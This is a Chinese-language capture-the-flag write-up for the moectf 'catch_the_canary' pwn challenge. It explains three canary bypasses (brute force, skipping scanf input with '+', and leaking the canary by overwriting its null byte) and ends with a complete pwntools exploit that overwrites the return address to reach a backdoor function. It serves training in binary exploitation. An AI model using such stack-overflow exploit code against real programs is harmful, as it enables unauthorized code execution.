


# moectf catch_the_canary

by Maple

***Canary绕过的多种方式***

这道题使用两/三种Canary的绕过方式

详细请看[这里](../basic/Canary.md)

## 第一次绕过



第21-24行模拟了32位程序中爆破Canary的方法，

大道至简，一个个试

```python
p.sendline(str(0xabcd00).encode())
for i in range(0x00ffdcba,0x01000000):
    p.sendlineafter(b'n.\n',str(i).encode())
    rec = p.recvuntil(b']')
    if b'Error' not in rec:
        break
```

## 第二次绕过



这里v9的输入存在溢出，可以覆盖v10的值，但是在输入结束后会对v9[0]的值进行检查，那么有什么办法可以绕过输入呢？

有的，兄弟，有的

观察scanf函数，发现格式说明符是`%zu`(读取无符号整数)，解析规则为：

- 有效输入：数字0-9和前导空格
- 无效输入：包含非数字字符（如+，-，字母等），scanf会停止解析，不会修改目标变量，并返回0

所以我们可以输入`+`或`-`来跳过一次输入（准确来说，scanf输入都可以这样绕过）

```python
p.sendlineafter(b't.\n',b'+')
p.sendline(b'1')
p.sendline(str(0xbacd003).encode())
```

## 第三次绕过

这次就是我们常见的覆盖截断泄露Canary了

多输入一位字符覆盖`\x00`，阻止输出截断，然后就可以得到canary的值

```python
p.send(b'b'*25)
p.recvuntil(b'b'*25)
canary = b'\x00'+p.recv(7)
print(canary)
```

## 最终实现

```python
from pwn import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
p = process('./pwn')

#------------1--------------
p.sendline(str(0xabcd00).encode())
for i in range(0x00ffdcba,0x01000000):
    p.sendlineafter(b'n.\n',str(i).encode())
    rec = p.recvuntil(b']')
    if b'Error' not in rec:
        break

#-----------2-------------
p.sendlineafter(b't.\n',b'+')
p.sendline(b'1')
p.sendline(str(0xbacd003).encode())

#----------3------------
backdoor = 0x4012AD
p.send(b'b'*25)
p.recvuntil(b'b'*25)
canary = b'\x00'+p.recv(7)
print(canary)
p.send(b'b'*24+canary+b'b'*0x8+p64(backdoor))

p.interactive()
```

